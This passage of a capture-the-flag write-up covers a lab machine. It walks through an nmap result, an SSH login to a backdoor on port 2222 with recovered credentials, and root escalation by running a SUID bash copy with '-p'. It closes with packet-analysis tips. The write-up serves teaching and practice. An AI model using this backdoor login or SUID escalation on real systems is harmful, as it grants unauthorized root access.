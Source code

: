 ```
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 596.39 seconds
```

Here, we can see that SSH is enabled on port 2222. So, we can login using the obtained credentials from this port via SSH. We know that the attacker stored the SSH key in user 'james' `.ssh` folder. Hence, we will use the username 'james' and the password that we obtained in the fourth question in last task to login.

```
tester@kali:~$ ssh james@10.10.140.216 -p 2222
The authenticity of host '[10.10.140.216]:2222 ([10.10.140.216]:2222)' can't be established.
RSA key fingerprint is SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.140.216]:2222' (RSA) to the list of known hosts.
james@10.10.140.216's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$ 
```

Now that we have the access to the machine we can start looking for the flags.

3. ##### What's the user flag?

The user flag can be found at it's usual place in the user's directory.

```
james@overpass-production:/home/james/ssh-backdoor$ cd ..
james@overpass-production:/home/james$ ls
ssh-backdoor  user.txt  www
james@overpass-production:/home/james$ cat user.txt 
```

4. ##### What's the root flag?

In user james directory we can see a file named `.suid_bash` that is owned by root. We can to [GTFOBins](https://gtfobins.github.io/gtfobins/bash/) and look for bash with SUID. There we can see that with SUID bit set we can run `bash` as root using the flag `-p`.

```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cat /root/root.txt
```

And we get the root flag!

## Some Key Points to Take Away

1. Try to determine the flow of connection when analysing packet data.
2. If you find traffic for specific odd ports, filter traffic for those specific ports.
3. Try to look for hardcoded values, comments or other hints when you have a code.